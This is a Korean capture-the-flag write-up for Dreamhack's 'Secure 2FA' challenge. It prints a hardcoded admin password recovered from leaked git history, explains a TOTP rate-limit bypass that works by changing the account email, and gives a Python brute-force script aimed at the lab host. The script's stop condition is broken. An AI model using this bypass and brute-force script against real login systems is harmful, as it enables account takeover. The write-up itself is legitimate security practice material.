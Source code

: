 # Secure 2FA
https://dreamhack.io/wargame/challenges/1251
## Description
```
드림이가 만든 웹 서비스의 git 리포지토리가 유출되었어요.
admin의 비밀번호도 숨겨 놓고 TOTP (Time-based One-Time Password)도 적용해서 안전하다는데...

git 리포지토리와 소스 코드를 분석하여 취약점을 찾고 익스플로잇하여 플래그를 획득하세요!

플래그 형식은 DH{...} 입니다.
```

# Exploit

## Get password
노출된 `.git`파일을 이욯해 `git cat-file` `git diff`로 과거 커밋에서 하드코딩된 비밀번호 확인 가능.
```
const ADMIN_PASSWORD = '7h15_i5_4dm1n_p4S5wo2d_:)';
const ADMIN_SECRET = process.env.ADMIN_SECRET;
```

## TOTP bypass

```js
async function getFailureCount(username) {
    const expirationSeconds = getExpirationSeconds();
    const redisKey = `TOTP_AUTH_FAILURE_COUNT:${accounts[username].email}`;
    const ret = await redisClient.multi()
        .incr(redisKey)
        .expire(redisKey, expirationSeconds, 'NX')
        .exec();
    return ret[0] - 1;
}
```
TOTP인증 제한회수를 확인해보면 `accounts[username].email`을 사용한다.


```js
app.get('/mypage', (req, res) => {
    if (req.session.isSignedIn !== true) {
        res.status(403);
        res.send('you are not signed in.');
        return;
    }

    const username = req.session.username;
    account = accounts[username];

    res.render('mypage', {
        username: username,
        name: account['name'],
        age: account['age'],
        email: account['email']
    });
});
```
`/mypage`엔드포인트에서는 `account['email']`의 값을 수정할 수 있다.

`TOTP`를 5회 시도하고 `email`을 바꾸는 방식으로 무작위 대입을 할 수 있다.    
그래서
```py
import requests
import random
import string
import sys


class Exploit():
    def __init__(self, port):
        self.status = False
        self.token = 100000
        self.baseurl = 'http://host3.dreamhack.games:'+port
        self.s = requests.session()

    def changeEmail(self):
        email = ''.join([string.ascii_letters[random.randint(1, 50)] for i in range(10)])
        data = {
            'name': 'Carl Dream',
            'age': 0,
            'email': f"{email}@example.com"
        }
        self.s.post(url=self.baseurl+'/mypage', data=data)

    def adminLogin(self):
        data = {
            'username': 'admin',
            'password': '7h15_i5_4dm1n_p4S5wo2d_:)'
        }
        self.s.post(url=self.baseurl+'/signin', data=data)

    def attack(self):
        self.adminLogin()
        while self.status == False:
            data = {'token': self.token}
            r = self.s.post(url=self.baseurl+'/admin', data=data)
            print(f"token > {self.token} {r.status_code} {r.text}")
            if self.token % 5 == 0:
                self.changeEmail()
            if r.status_code == 200:
                self.status == True
            self.token += 1


if __name__ == "__main__":
    Exploit(port=sys.argv[1]).attack()
```
FLAG를 얻을 수 있다.